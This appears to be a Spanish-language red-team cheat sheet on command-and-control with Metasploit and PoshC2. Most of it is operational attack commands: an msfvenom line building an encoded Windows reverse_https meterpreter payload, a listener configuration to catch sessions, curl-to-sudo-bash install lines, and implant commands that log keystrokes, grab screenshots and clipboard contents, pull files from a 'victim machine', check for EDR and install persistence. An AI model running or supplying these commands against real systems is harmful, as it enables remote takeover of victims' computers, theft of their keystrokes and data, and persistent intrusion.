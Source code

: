 # **Command and Control * Resumen comandos**

## **Metasploit:**

Creación de beacons para los listeners de metasploit:
```bash
$ sudo msfvenom -p windows/meterpreter/reverse_https --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=<ip o dominio ngrok> LPORT=4443 -f exe
```

Dentro de metasploit inicializamos nuestros C2:
```bash
# Inicializamos la base de datos de metasploit:
$ sudo msfdb init

# Inicializamos el servicio (demonio) de metasploit:
$ sudo msfd 

# Ingresamos a metasploit:
$ sudo msfconsole

# Seteamos nuestro listener:
> use exploit/multi/handler
> set PAYLOAD windows/meterpreter/reverse_https
> set LHOST <ip o dominio ngrok>
> set LPORT 4443
> set SessionCommunicationTimeout 0
> set ExitOnSession false

# Lo ejecutamos con un job para seguimiento en 2do plano.
> exploit -j

# Interactuamos con la session:
> sessions -l # Lista las sessiones
> sessions -i <numero de la sesion>

```

## **PoshC2:**
1. Instalación
    
    Link de documentación: https://poshc2.readthedocs.io/en/latest/


    ```bash
    # Instalación de manera local: 
    $ curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install.sh | sudo bash

    # Instalación en docker:
    $ apt install docker docker.io
    $ curl -sSL https://raw.githubusercontent.com/nettitude/PoshC2/master/Install-for-Docker.sh | sudo bash

    ```

2. Comandos usados para configuración:

    ```bash
    # Creación de proyectos:
    $ sudo posh-project -n <nombre_proyecto>

    # Configuración:
    $ sudo posh-config # se abrirá en el editor por defecto (vim en su mayoria)
    ```
    Dentro de la configuración se cambiaran 2 parametros generalmente:
    ```text
    PayloadCommsHost -> url de tu maquina escucha (ip de tu kali o tu ngrok).

    KillDate -> Fecha max que quieres que dure el beacon.
    ```

    Una vez realizado la configuración de tu proyecto se procede a ejecutar:
    ```bash
    $ sudo posh-server
    ```

3. Comandos usados para interacción usuario:
    
    
    ```bash
    # Logearse como usuario para interacción:
    $ sudo posh -u <usuario>

    # Revisar los logs del server:
    $ sudo posh-log
    
    ## Dentro del implante algunos comandos utiles:
    
    PS 1> get-userinfo # Información del usuario
    PS 1> get-computerinfo # Informacion de la maquina victima
    PS 1> find-allvulns # Enumeración de KB y vulnerabilidades potenciales
    PS 1> get-allservices # Listar todos los servicios

    # Enumeración de hosts 
    PS 1> invoke-arpscan # Enumeracion arp
    PS 1> invoke-hostenum -all 
    
    # Keylogger 
    PS 1> get-keystrokes # Ejecuta un keylogger por 60min
    PS 1> Get-KeystrokeData # Retorna la data al servidor
    
    # Screen y portapapeles
    PS 1> get-screenshot # Retorna un screenshot de la maquina victima
    PS 1> get-clipboard # Retorna el ultimo elemento copiado de la maquina victima
    
    # Descarga y carga de archivos
    PS 1> download-file -source 'c:\temp dir\run.exe' # Descarga de archivos de la maquina victima
    PS 1> download-files -directory 'c:\temp dir\' # Descarga de directorios.
    
    PS 1> upload-file -source 'c:\temp\run.exe' -destination 'c:\temp\test.exe'
    PS 1> web-upload-file -from 'http://www.example.com/app.exe' -to 'c:\temp\app.exe'
    
    # Detección de EDR:
    PS 1> invoke-edrchecker
    PS 1> invoke-edrchecker -force
    PS 1> invoke-edrchecker -remote <hostname>
    PS 1> invoke-edrchecker -remote <hostname> -ignore

    # Post-Explotación
    PS 1> install-servicelevel-persistence # Creacion de servicio de persistencia.
    PS 1> invoke-bloodhound -collectionmethod stealth # Para AD.
    
    # Persistencia:
    PS 1> installexe-persistence
    PS 1> removeexe-persistence
    ```

## **Referencias:**

https://redtm.com/red-teaming-toolkit/poshc2-commands-reference/

https://github.com/nettitude/PoshC2

https://www.rapid7.com/blog/post/2011/06/29/meterpreter-httphttps-communication/

